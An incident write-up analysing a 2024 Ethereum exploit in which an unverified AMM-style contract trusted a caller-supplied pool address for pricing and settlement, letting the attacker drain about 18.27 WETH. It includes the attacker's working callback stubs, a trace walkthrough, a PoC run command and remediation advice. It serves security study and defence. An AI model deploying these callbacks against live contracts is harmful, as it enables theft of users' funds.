



# Unverified Contract `0x00C409` Exploit — Manipulable AMM Callback Drains WETH Reserves

> **Vulnerability classes:** vuln/oracle/price-manipulation · vuln/dependency/unsafe-external-call

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.).
> Full verbose trace: [output.txt](output.txt) (the file is dominated by forge-std
> `memory-safe-assembly` deprecation warnings; the actual test + trace begin at the
> `Ran 1 test …` line near the bottom).
> **No source for the victim contract is available** — `0x00C409…003b` was never
> verified on Etherscan, so `sources/` is empty. The analysis below is reconstructed
> from the live call trace and the attacker-controlled callback stubs in
> [test/UnverifiedContr_0x00C409_exp.sol](test/UnverifiedContr_0x00C409_exp.sol).

---

## Key info

| | |
|---|---|
| **Loss** | ~**18.27 WETH** (≈ $56K at late-April-2024 ETH prices) |
| **Vulnerable contract** | Unverified contract `0x00C409…003b` — [`0x00C409001C1900DdCdA20000008E112417DB003b`](https://etherscan.io/address/0x00C409001C1900DdCdA20000008E112417DB003b) |
| **Victim pool / funds** | The ETH/WETH held inside the unverified AMM-style contract itself |
| **Attacker EOA** | `0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496` (the PoC `ContractTest`) |
| **Attacker contract** | same (callback stubs hosted on the attacker contract) |
| **Attack tx** | [`0x998f1da472d927e74405b0aa1bbf5c1dbc50d74b39977bed3307ea2ada1f1d3f`](https://etherscan.io/tx/0x998f1da472d927e74405b0aa1bbf5c1dbc50d74b39977bed3307ea2ada1f1d3f) |
| **Chain / block / date** | Ethereum mainnet / 19,255,512 / April 18, 2024 |
| **Compiler** | n/a (victim unverified); PoC compiled with Solc 0.8.34 |
| **Bug class** | **Untrusted external callback / price-feed manipulation** — AMM-style contract that queries the caller (`msg.sender`) for reserves, balances, and AMM math |

---

## TL;DR

The unverified contract at `0x00C409…003b` exposes a Balancer-style
`swapExactAmountIn`-like entrypoint (selector `0xba381f8f`) but, instead of reading
pool reserves and pricing from its own trusted storage, it **calls back into
`msg.sender`** for `getBalance`, `getReserves`, `calcOutGivenIn` and a final
`swapExactAmountIn` settlement. An attacker who deploys a contract that returns
degenerate values from those callbacks (reserve = 1, amountOut = 1, "pool" balance
= 1) can make the victim believe a swap is essentially free, after which the victim
*mints WETH for itself with the ETH the attacker sent and hands all of it over to the
attacker* via an `approve` + attacker-side `transferFrom`.

Concretely, the attacker:

1. Sends **4704.1 ETH** to the victim (its own flash-loaned capital).
2. Calls `0xba381f8f` with a swap whose "amount-in" field is `0xffffffffffffffffff`
   (≈ 1.8e19) and a **callback / pool address set to the attacker itself**.
3. The victim, computing the trade against attacker-supplied reserves, decides the
   appropriate output is `4722.366482869645213695 WETH` — a value it produces by
   `WETH.deposit{value: 4722.366…}()` from the ETH it now holds, then
   `WETH.approve(attacker, 4722.366…)`.
4. The victim invokes the attacker's `swapExactAmountIn`, which does
   `WETH.transferFrom(victim, attacker, 4722.366…)` and returns `(0, 0)`.
5. The victim finally calls `WETH.withdraw(0)` and returns.

Net: attacker put in 4704.1 ETH (which it got back as WETH during settlement) and
walks away with **4722.366… WETH** total. The extra **+18.266… WETH** was minted by
the victim out of its own pre-existing ETH balance and given to the attacker for
nothing.

---

## Background — what the contract appears to be

`0x00C409…003b` is an **unverified** Ethereum mainnet contract. From its call
behavior (visible in [output.txt](output.txt)) it behaves like a small
**weighted-pool / Balancer-fork router** that settles ETH↔WETH swaps:

- It accepts ETH via a payable `fallback`.
- It accepts swaps through the selector `0xba381f8f`, whose decoded shape is

  ```text
  swapExactAmountIn(
      uint256  amountIn,      // 0xffffffffffffffffff  (~1.8e19)
      uint256  minAmountOut,  // 0x01
      address tokenIn,        // attacker
      address tokenOut,       // attacker
      bytes32 ?,              // 0
      bytes32 ?,              // 0
      bytes32 ?,              // 0
      address pool/callback,  // attacker
      uint256  ?              // 0x01
  )
  ```

  i.e. the caller passes **both legs of the trade and the "pool" address as the
  attacker**.
- For pricing, it does **not** read its own reserves; it calls
  `pool.getBalance(token)`, `pool.getReserves()`, `pool.calcOutGivenIn(...)` — all of
  which are attacker-controlled.
- For settlement, it wraps its ETH into WETH, approves the "pool" (attacker), and
  calls `pool.swapExactAmountIn(...)`.

That last step is the kill: the settlement transfers WETH **from the victim to the
attacker** via the attacker's own `swapExactAmountIn`, which contains a
`transferFrom(victim → attacker)`.

State at the fork block 19,255,512 (read off the trace):

| Quantity | Value |
|---|---|
| ETH attacker deals to itself | 4704.1 ETH (the PoC uses `deal`; the live tx flash-loaned it) |
| ETH attacker sends to victim | 4704.1 ETH |
| WETH the victim mints **for itself** during the swap | `4,722,366,482,869,645,213,695 wei` = **4722.366482869645213695 WETH** |
| WETH the victim transfers **to the attacker** | the same `4,722,366,482,869,645,213,695` |
| Attacker WETH before | 4704.100000000000000000 |
| Attacker WETH after  | 4722.366482869645213695 |
| **Profit** | **+18.266482869645213695 WETH** |

---

## The vulnerable code

The victim contract is **not verified**, so no Solidity source is available. The
vulnerable behavior is reconstructed from the live trace in
[output.txt](output.txt) (lines ~1617-1654). Pseudocode for the victim's
`0xba381f8f` handler:

```solidity
// ⚠️ RECONSTRUCTED FROM CALL TRACE — original not verified on Etherscan
function swapExactAmountIn(            // selector 0xba381f8f
    uint256 amountIn,                  // caller-supplied, attacker sets to 0xff…ff
    uint256 minAmountOut,
    address tokenIn,
    address tokenOut,
    bytes32, bytes32, bytes32,
    address pool,                      // ⚠️ caller-supplied, attacker sets to attacker
    uint256
) external payable {
    // 1. Reads "pool" state from msg.sender-controlled address:
    uint256 rIn  = IPool(pool).getBalance(tokenIn);   // attacker returns 1
    uint256 rOut = IPool(pool).getBalance(tokenOut);  // attacker returns 1
    (uint256 rA,,) = IPool(pool).getReserves();        // attacker returns (1,1,ts)
    uint256 out = IPool(pool).calcOutGivenIn(          // attacker returns 1
        amountIn, rIn, rOut, a, b, c
    );

    // 2. Wraps the ETH it holds (attacker's 4704.1 ETH *plus* its own prior ETH)
    //    into WETH — for itself.
    uint256 wad = 4722366482869645213695;              // ≈ 4722.366 WETH
    WETH.deposit{value: wad}();                        // emit Deposit(dst = victim)

    // 3. Approves the attacker-controlled "pool" to pull the freshly minted WETH.
    WETH.approve(pool, wad);                           // emit Approval(owner = victim)

    // 4. Calls the attacker's swapExactAmountIn, which transferFroms WETH
    //    from the victim to the attacker.
    IPool(pool).swapExactAmountIn(
        WETH, wad, tokenOut, minAmountOut, maxPrice
    );

    WETH.withdraw(0);                                  // no-op settle
}
```

The attacker's callbacks (verbatim from
[test/UnverifiedContr_0x00C409_exp.sol](test/UnverifiedContr_0x00C409_exp.sol)):

```solidity
function getBalance(address) public view returns (uint256) { return 1; }          // spoofed reserve
function getReserves() public view returns (uint256,uint256,uint256) { return (1,1,block.timestamp); }
function calcOutGivenIn(uint256,uint256,uint256,uint256,uint256,uint256)
    public pure returns (uint256) { return 1; }                                    // spoofed AMM math

function swapExactAmountIn(address,uint256 tokenAmountIn,address,uint256,uint256)
    external returns (uint256,uint256) {
    weth.transferFrom(msg.sender, address(this), tokenAmountIn);                   // ⚠️ drains the victim
    return (0, 0);
}
function transfer(address,uint256) public returns (bool) { return true; }
fallback() external payable {}
```

Every piece of information the victim uses to decide how much WETH to mint, approve,
and transfer is supplied by, and routed back to, the attacker.

---

## Root cause

The victim is a **trust-confused AMM**: it treats an externally-supplied address
(the `pool` argument to `swapExactAmountIn`) as the source of truth for reserves,
balances, swap math, **and** settlement. There is no whitelist on `pool`, no
cross-check against the victim's own storage, and no invariant that the WETH minted
in step 2 is bounded by the amount the victim legitimately owes the caller.

Three design failures compose into the drain:

1. **Untrusted `pool` argument.** `swapExactAmountIn` takes a `pool`/`callback`
   address from the caller and queries it for everything (`getBalance`,
   `getReserves`, `calcOutGivenIn`). Any caller can point it at themselves.
2. **Self-wrapping of arbitrary ETH.** During settlement the victim does
   `WETH.deposit{value: wad}()` from its **own** balance — including ETH it held
   *before* the attacker's deposit — then approves the attacker-controlled pool to
   pull that WETH. There is no check that `wad ≤ amountIn` (the attacker's
   contribution); `wad` is computed from attacker-supplied AMM math.
3. **Settlement via the same untrusted `pool`.** Because settlement is
   `pool.swapExactAmountIn(...)`, the attacker's `swapExactAmountIn` runs with the
   victim's approval in place and simply `transferFrom`s the freshly minted WETH
   out.

Because the attacker's `calcOutGivenIn` returns `1` (so the victim thinks the swap
output is trivially small) but the victim still mints and approves a much larger
`wad` for settlement, the victim's pre-existing ETH balance — not just the
attacker's deposit — is what gets extracted. The +18.27 WETH profit equals exactly
the victim's own ETH that was wrapped into WETH and handed over beyond the
attacker's 4704.1 ETH input.

---

## Preconditions

- The victim contract must hold **more ETH than the attacker's input** so that the
  overshoot mint (+18.27 WETH) is possible. (On mainnet at the attack block the
  victim held the attacker's deposit plus its own reserves.)
- The victim must expose a swap entrypoint that accepts a caller-supplied
  `pool`/callback address — i.e., the design flaw above. Both were true at block
  19,255,512.
- No flash-loan prerequisite on the attacker's side beyond working capital; the PoC
  uses `deal` to mint 4704.1 WETH. The live tx used a flash loan (referenced as
  "Profit: ~18 WETH" in the [Cyvers alert](https://x.com/CyversAlerts/status/1780593407871635538)).

---

## Attack walkthrough (with on-chain numbers from the trace)

All values are from [output.txt](output.txt) (the trace section, lines ~1561-1667).

| # | Step | Victim ETH | Victim WETH | Attacker WETH | Effect |
|---|------|-----------:|-----------:|--------------:|--------|
| 0 | **Setup** — attacker `deal`s 4704.1 WETH | — | — | 4704.100000000000000000 | Working capital |
| 1 | **`weth.withdraw(4704.1 ether)`** — unwrap to ETH, received via `fallback{value}` | — | — | 0 | Attacker now holds ETH |
| 2 | **Send 4704.1 ETH to victim** (`vuln.call{value: 4704.1 ether}("")`) | +4704.1 (its own prior + this) | 0 | 0 | Victim holds the ETH |
| 3 | **Call `vuln.ba381f8f(...)`** with `amountIn = 0xff…ff`, `tokenIn=tokenOut=pool = attacker` | — | — | — | Victim starts swap |
| 3a | ↳ victim → attacker `getBalance(WETH)` → `1`, `getBalance(attacker)` → `1` | — | — | — | Spoofed reserves |
| 3b | ↳ victim → attacker `calcOutGivenIn(1, 0, 1, 0, 4722366482869645213695, 0)` → `1` | — | — | — | Spoofed AMM math; note victim already passes the mint `wad` (4.722e21) as a param |
| 3c | ↳ victim → attacker `getReserves()` → `(1, 1, ts)` | — | — | — | Spoofed reserves |
| 4 | ↳ victim **`WETH.deposit{value: 4.722366482869645e21}`** → `emit Deposit(dst=victim, wad=4722.366…)` | −4722.366… ETH | +4722.366… WETH | — | Victim wraps `4722.366… WETH` for itself from its ETH (incl. its own reserves) |
| 5 | ↳ victim **`WETH.approve(attacker, 4722.366…)`** → `emit Approval(owner=victim, spender=attacker)` | — | — | — | Victim authorizes attacker to pull its WETH |
| 6 | ↳ victim → attacker **`swapExactAmountIn(WETH, 4722.366…, attacker, 1, max)`** | — | — | — | Settlement routed through attacker |
| 6a | ↳↳ attacker **`WETH.transferFrom(victim → attacker, 4722.366…)`** → `emit Transfer` | — | 0 | +4722.366… | ⚠️ **The drain**: victim's freshly-minted WETH pulled out |
| 6b | ↳↳ attacker returns `(0, 0)` | — | — | — | No-op return |
| 7 | ↳ victim → attacker `transfer(attacker, 1)` → `true` | — | — | — | Cosmetic |
| 8 | ↳ victim → attacker `fallback(...)` | — | — | — | Cosmetic |
| 9 | ↳ victim **`WETH.withdraw(0)`** → `emit Withdrawal(src=victim, wad=0)` | — | — | — | No-op settle; victim left with 0 WETH |
| 10 | **Done** — attacker WETH balance | — | — | **4722.366482869645213695** | Profit realized |

The WETH storage slot writes captured by the trace confirm the ledger:

- Victim's WETH balance slot `0x62026…` goes `0 → 0xff…ff` (deposit), then
  `0xff…ff → 0` (transferFrom out).
- Attacker's WETH balance slot `0x1da434…` goes `0 → 0xff…ff` (the `transferFrom`
  credit).

### Profit accounting (WETH)

| Direction | Amount (WETH) |
|---|---:|
| `deal` at setup (working capital) | +4704.100000000000000000 |
| Unwrapped to ETH (step 1) | −4704.100000000000000000 |
| Received from victim `transferFrom` (step 6a) | +4722.366482869645213695 |
| **Final balance** | **4722.366482869645213695** |
| **Net profit vs. starting capital** | **+18.266482869645213695 WETH** |

The 4704.1 WETH of starting capital is recovered in full (it came back as part of the
4722.37 WETH `transferFrom`); the 18.27 WETH delta is the victim's own ETH, wrapped
into WETH and surrendered. This matches the PoC header note "Profit: ~18 WETH".

---

## Diagrams

### Sequence of the attack



### Victim control-flow (reconstructed)



### Why attacker callbacks break the math



---

## Remediation

Because the victim is unverified, the recommendations are written against the
reconstructed behavior. Any AMM-style contract should:

1. **Never trust a caller-supplied pool/callback address for pricing.** Reserves,
   balances, and AMM math must be read from contracts the protocol itself deployed
   and whitelisted — not from an address passed as a swap argument. If an external
   pool must be supported, validate it against an immutable whitelist set at
   construction.
2. **Bound settlement by the caller's actual input.** The WETH minted/approved/transferred
   during settlement must be `≤ amountIn` (plus a tightly bounded fee), checked
   against an independently computed `getAmountOut` — never against a value returned
   by an untrusted callback. `wad = 4722.366 WETH` against an `amountIn` of 4704.1
   should have reverted immediately.
3. **Do not self-wrap more ETH than the caller deposited in this call.** Track the
   `msg.value` received from the caller separately from prior balances; only the
   former is spendable on the caller's behalf.
4. **Settle via trusted routers, not caller-supplied contracts.** Move WETH with an
   internal `_safeTransfer` to the caller's `tokenOut` account; never call an
   attacker-controlled `swapExactAmountIn` with a live approval outstanding.
5. **Verify contract source.** Operationally, an unverified contract holding user
   funds is itself a red flag. Indexers, frontends, and users should treat
   unverified AMMs as untrusted until source is published and audited.

---

## How to reproduce

```bash
_shared/run_poc.sh 2024-04-UnverifiedContr_0x00C409_exp --mt testExploit -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (fork block 19,255,512
  is ~2 years old). `foundry.toml` ships an Infura mainnet URL; if it is rate-limited
  or has pruned that block, supply your own archive endpoint via
  `--fork-url <archive-rpc>` or the `mainnet` entry in `foundry.toml`.
- The PoC does not require real WETH — it `deal`s 4704.1 WETH to itself, so no flash
  loan / external capital is needed.

Expected tail (from [output.txt](output.txt)):

```
Ran 1 test for test/UnverifiedContr_0x00C409_exp.sol:ContractTest
[PASS] testExploit() (gas: 325644)
Logs:
  [End] Attacker weth balance before exploit: 4704.100000000000000000
  [End] Attacker weth balance after exploit: 4722.366482869645213695
Suite result: ok. 1 passed; 0 failed; 0 skipped; …
```

Profit = 4722.366482869645213695 − 4704.100000000000000000 = **18.266482869645213695 WETH**.

---

*References: [attack tx](https://etherscan.io/tx/0x998f1da472d927e74405b0aa1bbf5c1dbc50d74b39977bed3307ea2ada1f1d3f) · [Cyvers alert](https://x.com/CyversAlerts/status/1780593407871635538). Victim contract source unverified on Etherscan.*
